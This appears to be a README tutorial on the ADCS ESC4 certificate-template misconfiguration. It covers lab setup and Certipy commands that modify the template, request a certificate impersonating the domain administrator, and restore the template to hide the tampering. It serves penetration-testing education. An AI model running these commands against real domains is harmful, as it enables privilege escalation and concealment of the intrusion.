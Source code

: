 # 🔐 Active Directory Certificate Services (ADCS) - Enterprise CA Security Configuration 4 (ESC4) Abuse Guide


A misconfigured **ESC4 certificate template** can allow low-privileged users to **modify the template settings** and convert it into a vulnerability like **ESC1**, **ESC2**, or **ESC3**. This can ultimately lead to requesting a certificate as a **Domain Administrator**.

###  Vulnerable Permissions

If a domain user has **any of the following permissions** over a certificate template:

- `Owner`  
- `WriteOwnerPrincipals`  
- `WriteDaclPrincipals`  
- `WritePropertyPrincipals`

They can abuse the template to escalate privileges.

##  Setting Up the ESC4 Misconfiguration (Lab Environment)

To simulate or test the ESC4 misconfiguration in a lab setup:

### 1. Create a New Certificate Template

- Open **Certificate Authority** → Manage → Certificate Templates.
- Duplicate an existing template (e.g., "User") and name it something like **ESC4**.

### 2. Modify the Following Settings:

####  Disable Manager Approval
- Navigate to the **Issuance Requirements** tab.
- Uncheck **"Manager approval"**.

<img src="Imgs/image3.png" alt="Error Loading Image"/>

####  Permissions (Security Tab)
- Grant **Domain Users** or **Authenticated Users** the following permissions:
  - **Owner**
  - **WriteOwner**
  - **WriteDacl**
  - **WriteProperty**

<img src="Imgs/image2.png" alt="Error Loading Image"/>

> These permissions allow low-privileged users to modify the template, potentially making it exploitable as ESC1, ESC2, or ESC3.

### 3. Enable and Publish the Template
- Go to the CA console.
- Right-click **Certificate Templates** → **New** → **Certificate Template to Issue**.
- Select your **ESC4** template to publish it.


##  Key Conditions for ESC4 Exploitation



### 1️⃣ No Manager Approval Required

- The **Manager Approval** setting is **disabled**, meaning certificate requests are automatically issued without administrative oversight.

> **ESC4 Condition #1:** **Manager approval is not required**

---



### 2️⃣ Template is Published and Enabled

- The template is **enabled and published** by the Certificate Authority (CA), making it available for enrollment.

> **ESC4 Condition #2:** Template is **live and enabled**

---

### 3️⃣ Dangerous Template Permissions

The following permissions are misconfigured on the certificate template, enabling further abuse:

- `Owner`: Low-privileged user or group owns the template
- `WriteOwnerPrincipals`: Can change ownership of the template
- `WriteDaclPrincipals`: Can modify permissions (ACLs)
- `WritePropertyPrincipals`: Can change template properties (like EKU or SAN config)

> **ESC4 Condition #3:** Dangerous template ACLs:  
> `Owner`, `WriteOwnerPrincipals`, `WriteDaclPrincipals`, `WritePropertyPrincipals`

---

<img src="Imgs/image1.png" alt="Error Loading Image"/>


##  ESC4 Downgrade to ESC1 Exploitation via Certipy

##  Attack Summary

Certipy can exploit **ESC4** by **modifying the vulnerable certificate template** and turning it into an **ESC1-equivalent**. This is done by editing the template configuration to allow **arbitrary SANs** and **disable approval mechanisms**, enabling direct impersonation attacks.

---

##  Step-by-Step Exploitation

### 1️⃣ Backup the Template and Apply Exploit Config

We use Certipy to modify the template configuration. The `-save-old` flag **backs up the original template** and **applies the changes automatically**:

```bash
certipy-ad template -dc-ip 192.168.129.140 -u jack -p 'complex1@' -template Vulnerable-ESC4 -target furious.local -save-old
```

✅ This makes the **ESC4 template behave like ESC1**, enabling low-privileged users to request certificates for **any user** by manipulating the SAN field.

---

### 2️⃣ Request a Certificate as a Privileged User

Now, exploit the modified template to impersonate a high-privileged account (e.g., `administrator@furious.local`):

```bash
certipy-ad req -ca furious-DC01-FURIOUS5-CA -dc-ip 192.168.129.140 -u jack -p 'complex1@' -template Vulnerable-ESC4 -target furious.local -upn administrator@furious.local
```

 This issues a valid certificate for the **administrator**, which can be used to request a **Kerberos TGT** and elevate privileges.

---

### 3️⃣ Restore the Original Template Configuration

Once exploitation is complete, you can **restore the original template configuration** using the backup created earlier:

```bash
certipy-ad template -dc-ip 192.168.129.140 -u jack -p 'complex1@' -template Vulnerble-ESC4 -target furious.local -configuration Vulnerble-ESC4.json
```

This reverts the template to its **original state**, removing any tracks of tampering.

---

###  Authenticate with the Certificate

```bash
certipy-ad auth -pfx administrator.pfx
```

## ⚠️ Important Notes

- Always use `-save-old` to **preserve the original configuration**.
- Modifying templates typically requires **WriteDacl or WriteProperty** permissions.
- This attack effectively converts an **ESC4 misconfiguration** into an **ESC1 full impersonation scenario**.

---

